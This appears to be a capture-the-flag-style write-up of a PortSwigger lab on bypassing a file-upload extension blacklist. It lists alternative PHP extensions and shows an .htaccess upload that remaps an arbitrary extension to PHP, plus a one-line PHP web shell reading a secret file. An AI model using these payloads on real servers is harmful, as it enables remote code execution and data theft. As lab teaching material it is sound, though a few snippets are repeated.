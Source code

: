 # Web shell upload via extension blacklist bypass
# Objective
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis

### Upload request example
|![](Images/image-17.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-18.png)|
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
### Configuration files
Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
#### Apache
Potentially interesting files containg server configuration:
```
/etc/apache2/apache2.conf     --> Global configuration file
.htaccess                     --> Configuration file for individual directories (to override or add to one or more of the global settings)
```

Example - map `.php` extension (extension can be arbitrary) to be handled as `x-httpd-php`:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```
#### IIS

```
web.config      --> Configuration file for individual directories

<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```


Example - allow `JSON` files to be served to users:
```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### PHP payload upload test
File extension `.php` is blacklisted.
|![](Images/image-20.png)|
|:--:| 
| *PHP files are not allowed* |
|![](Images/image-19.png)|
| *PHP files are not allowed* |


## Exploitation
### Uploading different file extension
Alternatives for `.php` extension (source [Portswigger](https://portswigger.net/web-security/file-upload#exploiting-flawed-validation-of-file-uploads)/[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)):
```
.php5, .shtml
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
|![](Images/image-21.png)|
|:--:| 
| *Successful PHP payload upload - .php5 files are allowed* |
|![](Images/image-22.png)|
| *PHP payload was not executed* |

### Uploading .htaccess file and payload with arbitrary extension
Uploading `.htaccess` can influence how files with different extensions will be handled in a given directory.
|![](Images/image-23.png)|
|:--:| 
| *Successful .htaccess file upload* |
|![](Images/image-24.png)|
| *Successful PHP payload upload with arbitrary extension* |
|![](Images/image-25.png)|
| *Triggering uploaded PHP file* |

```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .malicious
```

```
Content-Disposition: form-data; name="avatar"; filename="exploit.malicious"
Content-Type: text/html

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This could have been done by following payload in `.htaccess` and previous `exploit.php5` file.
```
AddType application/x-httpd-php .php5
```
